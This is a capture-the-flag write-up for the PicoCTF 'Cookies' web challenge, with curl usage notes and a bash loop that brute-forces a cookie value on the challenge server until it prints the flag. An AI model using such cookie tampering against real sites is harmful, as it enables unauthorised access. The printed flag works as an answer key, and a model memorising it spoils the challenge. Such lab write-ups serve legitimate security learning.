 # PicoCTF - Cookies
###### tags: `PicoCTF` `CTF` `Web`
Challenge: http://mercury.picoctf.net:64944/

## Background
[curl 的用法指南](https://www.ruanyifeng.com/blog/2019/09/curl-reference.html)
> -H參數添加 HTTP 請求的標頭。
`$ curl -H 'Accept-Language: en-US' https://google.com`

> -s參數將不輸出錯誤和進度信息。
`$ curl -s https://www.example.com`

> -L參數會讓 HTTP 請求跟隨服務器的重定向。curl 默認不跟隨重定向。
`$ curl -L -d 'tweet=hi' https://api.twitter.com/tweet`

> -I參數向服務器發出 HEAD 請求，然會將服務器返回的 HTTP 標頭打印出來。
`$ curl -I https://www.example.com`


## Exploit
1. Try to analyze
When I input something, it'll redirect to another page
![](https://i.imgur.com/Pq7XpNZ.png)
![](https://i.imgur.com/pKZJWfd.png)
I tried to change cookie to different number and also modify the different value of `name` parameter however, still got wrong information.

2. What about the redirect request
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -I
    HTTP/1.1 302 FOUND
    Content-Type: text/html; charset=utf-8
    Content-Length: 209
    Location: http://mercury.picoctf.net:64944/
    Set-Cookie: name=-1; Path=/
    ```
    You can see that there is a cookie in header

3. How about setting different value?
    ```bash!
    $ curl http://mercury.picoctf.net:64944/ -H "Cookie: name=0;" -L
    ...
              <!-- <strong>Title</strong> --> That is a cookie! Not very special though...
                </div>



            <div class="jumbotron">
                <p class="lead"></p>
                <p style="text-align:center; font-size:30px;"><b>I love snickerdoodle cookies!</b></p>
            </div>
    ...
    ```
    It seems a hint to find value.

<font color="FF0000">通靈</font>
4. Brute force
```bash!
$ for i in {1..20};
for> do
for> contents=$(curl -s http://mercury.picoctf.net:27177/ -H "Cookie: name=$i; Path=/" -L)
for> if ! echo "$contents" | grep -q "Not very special"; then
for then> echo "Cookie #$i is special"
for then> echo $contents | grep "pico"
for then> break
for then> fi
for> done
Cookie #18 is special
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_064663be}</code></p>
```


## Reference
[[ Day10] Web 小複習 ](https://ithelp.ithome.com.tw/articles/10271065)
